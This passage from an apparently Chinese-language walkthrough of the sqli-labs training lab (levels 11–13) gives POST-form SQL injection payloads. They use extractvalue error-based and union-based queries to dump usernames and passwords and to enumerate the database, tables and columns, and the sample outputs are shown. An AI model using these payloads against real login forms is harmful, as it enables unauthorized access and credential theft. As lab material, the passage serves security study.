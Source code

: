 ```
##机械操作对其他的进行处理

#爆值
uname=admin' and extractvalue(1,concat(0x7e,(select group_concat(username,0x3a,password) from users)))#&passwd=admin&submit=Submit

##同样not in查其他值
uname=admin' and extractvalue(1,concat(0x7e,(select group_concat(username,0x3a,password) from users)))--+&passwd=admin&submit=Submit


```

法二：联合查询

```
uname=0' union select 1,2  # &passwd=admin&submit=Submit
```

uname需要是不存在或者错误的才能显示坑位。

```
#爆库
uname=0' union select 1,database() #&passwd=admin&submit=Submit

##Your Login name:1
##Your Password:security

#下述操作与get的方法相同
#爆表
uname=0' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security') #&passwd=admin&submit=Submit
##Your Login name:1
##Your Password:emails,referers,uagents,users

#爆字段
uname=0' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users' table_schema='security')#&passwd=admin&submit=Submit

#查用户名密码
select group_concat(username) from db_name.table_name
```



### 12

同11，闭合方式为").其余操作与11雷同。

![image-20200712003410538](sql.assets/image-20200712003410538.png)



### 13
